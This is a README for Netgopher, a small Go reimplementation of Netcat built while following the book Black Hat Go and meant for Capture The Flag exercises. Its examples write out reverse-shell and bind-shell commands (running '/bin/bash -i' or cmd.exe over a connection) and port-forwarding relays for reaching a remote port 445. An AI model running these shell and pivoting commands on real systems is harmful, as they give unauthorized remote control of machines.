 # Netgopher

This is a basic Go implementation of (some functions of) Netcat and has been produced whilst working through the very-excellent NoStarch Press book [Black Hat Go](https://nostarch.com/blackhatgo) (which wins best cover too IMO). 

This implementation of Netcat is basic and has been built up piecemeal whilst following various book sections. Notably, this tool is TCP only, with limited features (no hexdump etc.). That said, Netgopher does most things I want Netcat to do during Capture The Flag exercises, including simple out of the box port realying.

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

# Installation

You can get Netgopher easily with:

```
❯ go get -u "github.com/blackfell/ng"
```

But this will only install in your local $GOPATH; additionally, the binary will be fairly large, compiled only for your OS. I usually just grab a copy of all the [released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1), which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

The simplest examples are the classic netcat connect and listen functions. You can try this out with a pair of listeners:

![Listener & connect example image](assets/basic.gif)

## CTF Use Cases

Some really common use cases I have are:

Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```

Or start the same shell on a bind listener; this is useful because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```

Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c remote_host:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```

Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```

# Feedback?

Issues, pulls, emails, tweets all welcome!

